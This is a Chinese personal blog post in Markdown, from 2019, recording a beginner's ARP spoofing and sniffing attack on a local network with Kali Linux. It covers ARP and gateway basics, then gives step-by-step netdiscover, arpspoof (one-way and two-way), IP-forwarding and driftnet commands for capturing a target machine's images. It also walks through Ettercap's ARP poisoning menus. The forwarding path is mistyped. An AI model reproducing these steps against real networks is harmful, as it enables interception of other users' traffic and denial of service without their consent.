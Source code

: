 ```yaml
---
title: kali进行arp嗅骗和攻击的一次记录
date: 2019-10-14T21:57:23.000Z
categories:
  - 网络安全
tags:
  - 网络安全 - kali
---
```


# Kali下arp嗅探和攻击的手账

由于本人打算考网络安全的专硕，所以这几天玩了一次kali。恩，怎么说呢，感触挺深的，特此记录下来

## arp基础

在我们进行各种高大上的讲解的时候，我们要先清楚一点，我们如何在网上进行各种活动的。 比如我们经常用的baidu,我们是如何访问到baidu的服务器的。

我们可以通过追踪路由来弄清楚这个问题

windows: tracert linux:traceroute

通过运行上面的命令我们可以看出数据包的传输过程 ![](https://s2.ax1x.com/2019/10/14/KpcYcR.png)

> 由于本人身处深山，所以网络查的可以，上面的图仅供参考

我们可以看到，我们的探测数据包经过了很多路由的转发最终达到了我们的机器上

并且，这里我们需要引出很重要的东西 -- **网关**

网关我们可以这么理解: 相信大家家里都有有线网了吧，我们其实可以把网关看成我们的那个接入网络的光猫路由器。

我们所有的数据包都是通过网关这个小东西传输。

现在，重点来了！！！！

> 敲黑板

假如，我们在同一个局域网下面，有两台机器，一台是我们自己，一台是需要攻击的机器。

那么，正常情况下，两台机器都有自己的ip地址 (192.168.x.x)，进行自己正常的网络服务,但是如果我们告诉对方机器现在我就是路由器，而且如果我的机器不能进行端口转发的时候，对面的机器就进不去网了。

需要注意的一点哈，现在我们告诉了对方机器我们是路由器，但是路由器还是可以给对面机器通信的。

这一点可以重复上面的操作，就是告诉路由器我们就是对面机器，进行双向嗅探来解决。

## 如何进行攻击

### 命令行方法

一、 获取对方信息

由于这篇博客写的是内网渗透，所以，我们需要扫描当前网络下的其他机器

```bash
  > ifconfig
```

![](https://s2.ax1x.com/2019/10/16/KiPr90.png)

先查看一下自己ip 里面重要的消息 有网卡和ip

这里说明一点,一般的话网关的最后一位数字一般都是1

```bash
  > netdiscover -i [网卡] -r [网关/24]
  example:
  > netdiscover -i eth0 -r 192.168.3.1/24
```

这样就可以获取对方ip，这里我只有一台电脑，我就不放图了

二、开始进行嗅探

```bash
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

> arpspoof -i eth0 [对方ip]  网关

```

双向嗅探

```bash
  > arpspoof -i eth0 [对方ip]  网关
  > arpspoof -i eth0 [网关]  对方ip
```

> 由于kali默认情况下是禁止端口转发的，所以现在的情况下对面机器是断网的

开启端口转发

```bash
  echo 1> /proc/sys/net/ipv4/ipforward
```

1是开启 0是关闭

> proc是目前开机的时候机器的配置，重启的话会重置

抓取对面图片

```bash
  driftnet -i eth0
```

### 软件嗅探

![](https://s2.ax1x.com/2019/10/16/KiFqkd.png)

具体做法

sniff->unified sniffing

host -> hostlist

host -> scan for host

![](https://s2.ax1x.com/2019/10/16/KikuBF.png)

网关IP add to target 1 靶机 add to target 2

Mitm->ARP poisoning

要记住选中第一项 第二项是单项ARP毒缓存 用于靶机会失败报警 单向欺骗网关

开启driftnet
